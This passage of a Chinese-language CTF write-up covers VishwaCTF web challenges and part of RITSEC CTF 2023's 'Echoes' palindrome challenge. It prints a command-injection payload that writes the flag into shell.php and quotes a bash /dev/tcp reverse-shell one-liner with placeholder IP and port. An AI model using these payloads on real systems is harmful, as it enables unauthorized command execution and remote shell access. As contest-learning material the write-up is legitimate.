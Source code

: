 太慢了，搞出来一个非预期

payload 

```
;base64 ./fla*>shell.php
```

 访问后base64解码

`VishwaCTF{b1inD_cmd-i}`

根据flag看应该是非预期

>   赛后看了别人的wp，发现弹shell是可行的
>
>   ```shel
>   domain=`/bin/bash -c "/bin/bash -i >& /dev/tcp/[yourip]/[port] 0>&1"`
>   ```



### Mascot

除了一个前端井字棋游戏之外啥也没有

太离谱了，git泄露，不需要githacker，泄露了github地址，直接跟过去得到 flaggg.md

### spooky

看描述与第一题有关，都是一个登录框，但是没有源码了

就俩个 login.php,index.php 时间来不及了，等赛后复现了

# RITSEC CTF 2023

### Echoes

输入一串字符，判断是不是回文字符

经过测试，发现如下情况

|   输入   | 应该 | 实际 |
| :------: | :--: | :--: |
|   7*7    | yes  |  no  |
|   11*1   |  no  | yes  |
| 任意数字 |    yes/no    |yes|

有点没搞懂干嘛

echo不是回文

好像偶数个字符就会回显

![image-20230402212805203](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402212805203.png)
